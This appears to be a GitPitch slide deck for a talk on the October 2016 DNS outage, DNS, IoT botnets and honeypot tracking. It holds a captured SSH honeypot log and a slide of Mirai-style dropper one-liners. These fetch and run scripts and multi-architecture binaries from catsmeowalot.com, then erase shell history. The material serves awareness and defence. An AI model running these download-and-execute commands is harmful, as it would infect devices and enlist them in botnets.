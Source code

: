 #HSLIDE

* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehat hackers love cat pictures?

#HSLIDE?image=media/43.png

#VSLIDE



#HSLIDE

## DNS

```
;; QUESTION SECTION:
;spotify.com.                   IN      A

;; ANSWER SECTION:
spotify.com.            300     IN      A       194.132.197.147
spotify.com.            300     IN      A       194.132.198.165
spotify.com.            300     IN      A       194.132.198.228

;; AUTHORITY SECTION:
spotify.com.            300     IN      NS      ns3.spotify.com.
spotify.com.            300     IN      NS      ns4.spotify.com.
spotify.com.            300     IN      NS      ns5.spotify.com.
spotify.com.            300     IN      NS      ns2.spotify.com.

;; ADDITIONAL SECTION:
ns2.spotify.com.        300     IN      A       194.132.168.117
ns3.spotify.com.        300     IN      A       193.235.32.2
ns4.spotify.com.        300     IN      A       194.132.162.51
ns5.spotify.com.        300     IN      A       194.68.28.185
```

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#VSLIDE



#HSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

.. what about Artificial cardiac pacemaker?

#HSLIDE

2016-10-28 05:00:46+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] admin trying auth password
2016-10-28 05:00:46+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] admin authenticated with password
2016-10-28 05:00:49+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] starting service ssh-connection
2016-10-28 05:00:49+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] channel open
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] executing command "cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Opening TTY Log: log/tty/20161028-050050-abab97cc-0e.log
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] CMD: cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; rm -rf ./bash_history; history -c
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: cd /tmp
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: wget http://catsmeowalot.com/lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Starting factory <HTTPProgressDownloader: http://catsmeowalot.com/lmao.sh>
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: curl -O http://catsmeowalot.com/lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: busybox tftp catsmeowalot.com -c get tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: busybox tftp -r tftp2.sh -g catsmeowalot.com
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: rm -rf lmao.sh tftp1.sh tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: cd
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: rm -rf ./bash_history
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: history -c
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] exitCode: 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] sending request exit-status
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] sending close 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] exitCode: 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] received eof, sending ctrl-d to command
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] honeypot terminal protocol connection lost disconnected

#HSLIDE

```
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && chmod +x ayyx86 && ./ayyx86
cd /tmp && wget -q http://catsmeowalot.com/ayyarm && chmod +x ayyarm && ./ayyarm
cd /tmp && wget -q http://catsmeowalot.com/ayyi686 && chmod +x ayyi686 && ./ayyi686
cd /tmp && wget -q http://catsmeowalot.com/jackmypowerpc && chmod +x jackmypowerpc && ./jackmypowerpc
cd /tmp && wget -q http://catsmeowalot.com/ayyi586 && chmod +x ayyi586 && ./ayyi586
cd /tmp && wget -q http://catsmeowalot.com/jackmym86k && chmod +x jackmym86k && ./jackmym86k
cd /tmp && wget -q http://catsmeowalot.com/jackmysparc && chmod +x jackmysparc && ./jackmysparc
```

#HSLIDE?image=media/


#HSLIDE


Slides and more on Anycast and DNS:

```
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
```

#HSLIDE

* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)

